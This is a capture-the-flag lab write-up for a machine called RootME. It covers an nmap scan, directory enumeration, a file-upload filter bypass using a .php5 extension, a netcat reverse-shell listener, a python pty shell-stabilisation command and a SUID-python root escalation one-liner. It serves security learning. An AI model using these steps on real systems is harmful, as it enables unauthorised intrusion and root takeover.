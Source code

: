 # RootME

## Data

IP address: `10.10.34.184`

## NMAP

```
# Nmap 7.92 scan initiated Sat Jul  2 10:30:06 2022 as: nmap -sV -Pn -oN nmap.txt 10.10.34.184
Nmap scan report for 10.10.34.184
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul  2 10:30:16 2022 -- 1 IP address (1 host up) scanned in 9.75 seconds

```

## Probing

### Enumeration

A few enumeration tools to check hidden pages

#### Feroxbuster

Found pages:

- `/uploads`
- `/panel`
- `/js`
- `/css`

#### GoBuster

#### Nikto

Both were not needed

### panel page

This allowed for a file upload. The extension is being scanned so php files are not allowed. A .php5 file is allowed tho.

### Uploads page

After the upload, we can execute the .php5 file to create a reverse shell. 

In our terminal, use the command `nc -l -p 5000` to create a netcat listener. In the php file, update to our ip and port. See php-reverse-shell.php5 in this directory for the upload code.

## Reverse shell

By doing the upload and execution, we created a reverse shell.

This shell has to be stabilized by running the command 

```python
python -c 'import pty; pty.spawn("/bin/bash")'

```

This does rely on python, so this might not be available always

After we established a stable shell, we can search for the regular user flag, which is in `/var/www/html` as `user.txt`

AFter that, we can try to privesc. 

## Privilege escalation

For this, using the file upload we can try linpeas. This checks the entire system for available paths to do privesc.

Linpeas found that python is configured to run as root, so this is usefull.

To create a root shell using python, the following command can be used:

```python
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Then we had a root shell, so in the `/root` the file `root.txt` held our flag